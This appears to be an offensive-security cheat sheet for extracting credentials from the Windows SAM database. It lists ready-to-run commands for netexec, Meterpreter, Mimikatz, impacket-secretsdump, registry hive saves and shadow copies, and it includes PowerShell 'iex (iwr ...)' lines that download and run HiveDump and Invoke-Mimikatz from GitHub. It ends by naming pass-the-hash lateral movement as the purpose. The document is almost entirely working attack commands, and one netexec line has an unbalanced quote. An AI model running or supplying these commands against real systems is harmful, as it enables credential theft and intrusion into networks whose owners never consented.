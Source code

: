 # Extract Credentials from SAM

## Tools: CrackMapExec/Netexec , Meterpreter , Mimikatz , impacket-secretsdump , reg.py , vss shadow copies

#### 1) CrackMapExec/Netexec

    netexec smb IP_RANGE -u USER -p 'PASSWORD --sam

#### 2) Meterpreter

    hashdump

#### 3) Mimikatz

    mimikatz "privilege::debug" "lsadump::sam" "exit"

#### 4) Secretsdump

    impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 5) Reg.py

    reg.py DOMAIN/USER:PASSWORD@IP backup -o '\\SMB_IP\share'

    impacket-secretsdump -security SECURITY_FILE -system SYSTEM_FILE LOCAL

#### 6) Shadow Copies (vss)

    diskshadow list shadows all

    mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\Harddisk VolumeShadowCopy1\

#### 7) SAM , SYSTEM and SECURITY hives backup copies

    reg save HKLM\SAM SAM_COPY

    reg save HKLM\SECURITY SECURITY_COPY

    reg save HKLM\SYSTEM SYSTEM_FILE

    impacket-secretsdump -system SYSTEM -sam SAM LOCAL

#### 8) HiveDump

##### Load into memory

    iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

##### Dump

    Invoke-HiveDump

#### 9) Mimikatz

##### Load into memory

    IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")

##### Dump from SAM and SYSTEM. Ensure files are in the current working directory

    Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

##### Dump against the live hive files

    Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'


### With dumping the SAM hive, we dump NTLM hashes to perform Pass-the-Hash attacks (Lateral Movement)
